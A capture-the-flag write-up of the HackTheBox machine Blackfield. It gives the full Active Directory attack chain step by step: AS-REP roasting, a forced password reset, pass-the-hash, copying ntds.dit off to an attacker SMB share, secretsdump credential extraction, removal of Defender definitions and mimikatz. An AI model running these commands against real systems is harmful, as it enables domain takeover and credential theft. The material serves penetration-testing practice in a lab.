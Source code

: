 <p align="center">
  <img src="https://github.com/cyberwr3nch/hackthebox/blob/master/writeups/assets/Blackfield.jpg" alt='HTB_logo'>
</p>

### Description:
- Enumerating AD user
- Obtaining TGT Tickets for users with PRE_AUTH Disabled
- With the obtained **audit2020** user the smb share *forencis* is accessable
- Analyzing the lsass file from the forencis share gives the NTLM hash for **svc_backup** and **Administrator**
- With the **SeBackupPriviledge** and **SeRestorePriviledge** available for the svc_backup account the system is backedup a bit and the system key is retrived from the backup
- The machine has made its way to the **_Active Directory Tracks_**

### Difficulty:

`easy`


#### Enumeration

- Open ports `53 (DNS),88 (Kerberos), 135 (msrpc), 389 (LDAP), 445 (SMB), 593, 3268 (Secure LDAP)`
- With the ports open its concluded that its an ActiveDirectory 
- Starting tests for ActiveDirectory `rpcclinet, smbshares, `
- `enumdomusers` in the rpcclinet enumerates the available user
- Enumerating the `smb shares` with crackmapexec
- `profiles$` share is accessable by the anonymous user, thus mounting it to the local machine and looking at the files its just user names
- Gathering the usernames and enumerating the ActiveDirectory users with `kerbrute`
- 3 ad users enumerated, `audit, support, svc_backup`
- Check for `Kerberos-pre-auth` with `GetNPUsers.py` from `impackets`
- Obtain the `asrep` token for the `support` user
- Crack the asrep token, obtained password: `#00^BlackKnight`
- Enumerate `rpc` with `rpcclinet`
- Checking for `Kerberos-pre-auth` disabled for the newly enabled users
- Running bloodhound to obtain information
- Mark the `support` user as `owned`
- Mark the users `svc_backup` and `audit2020` as `high valuable`
- Shortest path from here to  owned reveals `Force Password Change`
- Change the users password with `rpcclinet` 
- After changing the password for the `audit2020` user, the `forencics` smb share is accessable
- A zip file `lsass.zip` was found in `memory_analysis` dir
- lsass is the place where `mimikatz` obtains password
- `pypykatz` is used to analyze `lsass` file in linux
- The `NT` hashes for the user `Administrator` and `svc_backup` can be found
- The Administrator's hash cannot be validated to SMB shares
- Logginig into the `svc_backup` with the `evil-winrm` with the `hash` obtained form the `lsass.dmp` file
- After logging in as `svc_backup` and looking at the priviledges available for the user `SeBackupPriviledge` and `SeRestorePriviledge` are enabled which is a seriously danger priviledges
- Start the smb server in the kali machine and share the data via `wbadmin`
- Backup fails, since it needs to be backuped in the `ntfs` disk format
- Create a `ntfs disk` in the linux
- Extract the information from the ntds.dit via wbadmin
- Obtain the system hive via registry



#### Commands:

```bash
# smb shares Enumeration
smbclient -L 10.10.10.192 -U 'wr3nch'

# crackmapexec
crackmapexec smb 10.10.10.192 --shares -u 'wr3nch' -p ''
```

```bash
# access an available smb share
smbclient '//10.10.10.192/profiles$'

# mounting a smb share
mount -t cifs '//10.10.10.192/profiles$' /mnt/
```

```bash
# user name enumeration with kerbrute
kerbrute userenum --dc 10.10.10.192 -d blackfield users.txt
```

```bash
# check for Kerberos pre auth enabled
GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile users.txt 10.10.10.192/
```

```bash
# mount an authenticated shares
mount -t cifs -o 'username=support,password=#00^BlackKnight' '//10.10.10.192/profiles$' /mnt
```

```bash
# rpcclient testing
rpcclient 10.10.10.192 -U support 

# enumerate users 
enumdomusers
```

```bash
# bloodhound.py installation
git clone https://github.com/fox-it/BloodHound.py
cd BloodHound.py
python3 setup.py install

# running bloodhound.py
python3 bloodhound.py -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all 

# now everything will be obtained in a json file 

# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
```

```bash
# change the users password via rpcclient
# logging in to rpcclient
rpcclinet -U support 10.10.10.192
# password #00^BlackKnight

rpcclinet $> setuserinfo2 audit2020 23 'Password'
```

```bash
# pypykatz installation
pip3 install pypykatz

# analyze the lsass dump with pypykatz
pypykatz lsa minidump lsass.DMP
```

```bash
# login with evil-winrm
evil-winrm -i 10.10.10.192 -u svc_backup -H {hash}
```

```bash
# look for the priviledges available for the current user in the PowerShell

whoami /all
whoami /priv
```

```bash
# start the smb service
# syntax: sudo smbserver.py -smb2support {shareName} {path} -user {username} -p {password}
sudo smbserver.py -smb2support -user ippsec -p PleaseSubscribe smbShare ~/htb/blackfield/smb

# share data via wbadmin in the PowerShell instance
echo y | wbadmin start backup -backuptarget:\\10.10.14.2\smbShare -include:c:\windows\ntds\

# access the smb share with net
# syntax: net use {shareVolumeName} \\{ip}\{sharename} /user:{userName} {password}
net use x: \\10.10.14.2\smbShare /user:ippsec PleaseSubscribe
# after connecting traverse to the shared directory
x: 
# delete the mounted share
net use x: /delete
```

```bash
# create a ntfs disk format in linux with 2 GiGs of storage
dd if=/dev/zero of=ntfs.disk bs=1024M count=2

# mount the disk with losetup
sudo losetup -fP ntfs.disk 
losetup -a 
sudo mkfs.ntfs /dev/loop0
sudo mount /dev/loop0 smb/
```

```bash
# PowerShell commands
# extract information from the ntds.dit via wbadmin
echo y | wbadmin start recovery -verison:{versionNumber} -itemtype:file -items:C:\Windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
# obtain the version number of the backup
wbadmin get versions
```

```bash
# obtain system hive from the registry
# syntax: reg save hklm\system {path}
reg save hklm\system system.hive

# obtain account infos with ntds.dit and system.hive
secretsdump.py -ntds ntds.dit -system system.hive LOCAL 
# obtain the history of password changes
secretsdump.py -ntds ntds.dit -system system.hive -history LOCAL 
```

```bash
# disable the antivirus in the windows machine
cd 'C:\Progra~1\WindowsDefender\'
.\mpcmdrun.exe -RemoveDefinitions -All


# upload mimikatz and resotre the ntml of the audit2020
.\mimikatz.exe 	"lsadump::setntlm /user:audit2020 /ntlm:{hash_obtained_from_history}"
